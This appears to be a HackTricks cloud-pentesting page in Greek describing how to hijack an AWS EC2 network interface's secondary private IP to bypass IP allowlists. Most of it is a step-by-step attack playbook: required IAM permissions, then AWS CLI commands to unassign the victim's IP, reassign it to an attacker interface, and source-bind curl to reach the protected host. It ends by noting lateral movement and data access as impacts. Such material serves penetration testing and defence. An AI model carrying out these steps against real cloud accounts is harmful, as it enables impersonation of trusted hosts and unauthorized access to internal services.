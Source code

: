 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

Κακοποιήστε τις `ec2:UnassignPrivateIpAddresses` και `ec2:AssignPrivateIpAddresses` για να κλέψετε τη δευτερεύουσα private IP ενός θύματος ENI και να τη μεταφέρετε σε ένα ENI επιτιθέμενου στο ίδιο subnet/AZ. Πολλές εσωτερικές υπηρεσίες και security groups περιορίζουν την πρόσβαση με βάση συγκεκριμένες private IP. Με τη μετακίνηση αυτής της δευτερεύουσας διεύθυνσης, ο επιτιθέμενος προσποιείται τον έμπιστο host σε επίπεδο L3 και μπορεί να προσεγγίσει allowlisted υπηρεσίες.

Προαπαιτούμενα:
- Δικαιώματα: `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` στο ARN του ENI του θύματος, και `ec2:AssignPrivateIpAddresses` στο ARN του ENI του επιτιθέμενου.
- Και τα δύο ENI πρέπει να βρίσκονται στο ίδιο subnet/AZ. Η στοχευόμενη διεύθυνση πρέπει να είναι δευτερεύουσα IP (η primary δεν μπορεί να απελευθερωθεί).

Μεταβλητές:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG σε υπηρεσία-στόχο που επιτρέπει μόνο το $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Βήματα:
1) Επιλέξτε μια δευτερεύουσα IP από το ENI του θύματος
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) Διασφαλίστε ότι ο protected host επιτρέπει μόνο εκείνη την IP (idempotent). Αν χρησιμοποιείτε SG-to-SG rules αντί για αυτό, παραλείψτε.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) Βασική κατάσταση: από το attacker instance, το αίτημα προς PROTECTED_HOST θα πρέπει να αποτύχει χωρίς πλαστογραφημένη προέλευση (π.χ., μέσω SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) Αποδεσμεύστε το secondary IP από το victim ENI
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) Εκχωρήστε την ίδια IP στο attacker ENI (στο AWS CLI v1 προσθέστε `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) Επαληθεύστε ότι η ιδιοκτησία έχει μεταφερθεί
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) Από το attacker instance, κάντε source-bind στην hijacked IP για να φτάσετε τον protected host (βεβαιωθείτε ότι η IP είναι ρυθμισμένη στο OS; αν όχι, προσθέστε την με `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## Επιπτώσεις
- Παράκαμψη των IP allowlists και μίμηση των trusted hosts εντός του VPC με μετακίνηση των secondary private IPs μεταξύ ENIs στο ίδιο subnet/AZ.
- Πρόσβαση σε εσωτερικές υπηρεσίες που ελέγχουν την πρόσβαση με βάση συγκεκριμένες source IPs, επιτρέποντας lateral movement και πρόσβαση σε δεδομένα.
